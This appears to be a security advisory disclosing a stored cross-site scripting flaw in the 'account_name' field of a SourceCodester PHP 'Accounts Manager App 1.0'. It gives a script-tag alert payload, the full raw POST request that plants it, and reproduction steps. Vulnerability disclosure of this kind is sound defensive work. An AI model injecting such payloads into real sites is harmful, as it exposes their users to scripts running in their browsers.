 # Accounts Manager App - Stored Cross-Site Scripting(XSS)

#### Exploit Title: Accounts Manager App - Stored Cross-Site Scripting

#### Exploit Author: [webraybtl@webray.com.cn](mailto:webraybtl@webray.com.cn) inc

#### Vendor Homepage: https://www.sourcecodester.com/php/17482/accounts-manager-app-using-php-and-mysql-source-code.html

#### Software Link:https://www.sourcecodester.com/download-code?nid=17482&title=Accounts+Manager+App+Using+PHP+and+MySQL+with+Source+Code

#### Version: Accounts Manager App 1.0

#### Tested on: Windows Server 2008 R2 Enterprise, Apache ,Mysql

#### Description

Persistent XSS (or Stored XSS) attack is one of the three major categories of XSS attacks, the others being Non-Persistent (or Reflected) XSS and DOM-based XSS. In general, XSS attacks are based on the victim’s trust in a legitimate, but vulnerable, website or web application.Accounts Manager App does not filter the content correctly at the "account_name" parameter, resulting in the generation of stored XSS.

#### Payload used:

`<script>alert("a")</script>`

```
POST http://192.168.67.35:8093/endpoint/add-account.php HTTP/1.1
Host: 192.168.67.35:8093
Pragma: no-cache
Cache-Control: no-cache
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/127.0.0.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Connection: close
Content-Type: application/x-www-form-urlencoded
Content-Length: 110

account_name=%3Cscript%3Ealert%28%22a%22%29%3C%2Fscript%3E&username=admin&password=1232131&link=https%3A%2F%2F
```

#### Proof of Concept

1、Visit the website, click on "add Account", and fill in the xss payload in the "Account Name" field

![image](https://github.com/joinia/webray.com.cn/blob/main/Accounts-Manager-APP/images/xss2.png)

2、After successfully adding, re visiting the page will trigger an XSS pop-up window

![image](https://github.com/joinia/webray.com.cn/blob/main/Accounts-Manager-APP/images/xss1.png)

3、The captured post packet is as follows：

![image](https://github.com/joinia/webray.com.cn/blob/main/Accounts-Manager-APP/images/xss3.png)
